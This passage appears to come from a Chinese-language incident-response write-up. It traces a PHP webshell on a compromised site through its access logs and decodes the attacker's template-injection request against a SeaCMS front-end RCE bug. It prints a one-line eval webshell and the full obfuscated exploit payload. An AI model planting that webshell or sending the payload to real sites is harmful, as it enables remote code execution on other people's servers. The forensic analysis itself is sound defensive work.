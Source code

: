 
在查看该ip的访问记录时，其中并没有发现任何异常的攻击日志，从一开始访问就是/search/2.php开头，那么再到search目录下去翻阅，也发现已经没有了2.php，但是有1.php，落地时间为2020-11-26
12:53分

    
    
    <?php @$content = @stripslashes(/**/@$_POST[1]);@eval('' ./**/ $content);  
    

到这里其实就会发现，此刻碰到的后门，因为年限已久，可能在中途已经经过了几代的shell转手，导致日志十分复杂，既然有太多的攻击者和篡改文件行为，我们还是把目标聚焦在最初的/search/2.php文件，看看最初是如何落地的

    
    
    #cat *| grep '/search/2.php'| awk '{print $1,$2,$3,$4,$5,$6,$7,$8,$9,$10}'  
    180.126.246.121 - - [28/Aug/2020:05:00:01 +0800] "HEAD /search/2.php HTTP/1.1" 200 -  
    180.126.246.121 - - [28/Aug/2020:05:00:01 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    58.219.159.109 - - [29/Aug/2020:05:50:46 +0800] "HEAD /search/2.php HTTP/1.1" 200 -  
    58.219.159.109 - - [29/Aug/2020:05:50:46 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    112.114.100.152 - - [01/Sep/2020:04:07:03 +0800] "POST /search/2.php HTTP/1.1" 200 129  
    112.114.100.152 - - [01/Sep/2020:04:07:03 +0800] "POST /search/2.php HTTP/1.1" 200 37  
    

可以看到在2020年8月28号，就已有2.php文件落地，那么至此其实就可以告一段落，只需要对180.126.246.121这个ip的访问行为进行溯源即可

    
    
    #cat *| grep '180.126.246.121'| awk '{print $1,$2,$3,$4,$5,$6,$7,$8,$9,$10}'  
    180.126.246.121 - - [28/Aug/2020:05:00:00 +0800] "HEAD / HTTP/1.1" 200 -  
    180.126.246.121 - - [28/Aug/2020:05:00:00 +0800] "GET /?author=1 HTTP/1.1" 200 16234  
    180.126.246.121 - - [28/Aug/2020:05:00:00 +0800] "HEAD /search/?keys=%7Bif%3Aarray%5Fmap%28base%5Fconvert%2831298929054286%2C10%2C32%29%2Carray%28%28base%5Fconvert%2810%2C10%2C36%29%5Ebase%5Fconvert%2825%2C10%2C36%29%5Ebase%5Fconvert%283%2C10%2C36%29%29.roulcf.%28base%5Fconvert%2810%2C10%2C36%29%5Ebase%5Fconvert%2825%2C10%2C36%29%5Ebase%5Fconvert%283%2C10%2C36%29%29%29%29%7D%7Bendif%7D HTTP/1.1" 200 -  
    180.126.246.121 - - [28/Aug/2020:05:00:00 +0800] "HEAD /search/?keys=%7Bif%3Aarray%5Fmap%28base%5Fconvert%2831298929054286%2C10%2C32%29%2Carray%28%28base%5Fconvert%2810%2C10%2C36%29%5Ebase%5Fconvert%2825%2C10%2C36%29%5Ebase%5Fconvert%283%2C10%2C36%29%29.yizogi.%28base%5Fconvert%2810%2C10%2C36%29%5Ebase%5Fconvert%2825%2C10%2C36%29%5Ebase%5Fconvert%283%2C10%2C36%29%29%29%29%7D%7Bendif%7D HTTP/1.1" 200 -  
    180.126.246.121 - - [28/Aug/2020:05:00:01 +0800] "POST /search/ HTTP/1.1" 200 10390  
    180.126.246.121 - - [28/Aug/2020:05:00:01 +0800] "HEAD /search/2.php HTTP/1.1" 200 -  
    180.126.246.121 - - [28/Aug/2020:05:00:01 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    

这里可以看到明显的异常流量，那么经过urldecode解密，其中一段攻击向量跟模板注入十分相似

    
    
    /search/?keys={if:array_map(base_convert(31298929054286,10,32),array((base_convert(10,10,36)^base_convert(25,10,36)^base_convert(3,10,36)).yizogi.(base_convert(10,10,36)^base_convert(25,10,36)^base_convert(3,10,36))))}{endif}  
    

如果熟悉先前的海洋cms 前台rce漏洞，大概就能了解这个漏洞是因为模板变量被代入解析，最终进入了eval语句

    
    
    echo base_convert(31298929054286,10,32);  
    echo base_convert(10,10,36)^base_convert(25,10,36)^base_convert(3,10,36);  
    echo 'yizogi';  
    echo base_convert(10,10,36)^base_convert(25,10,36)^base_convert(3,10,36);  
    //setcookie"yizogi"  
    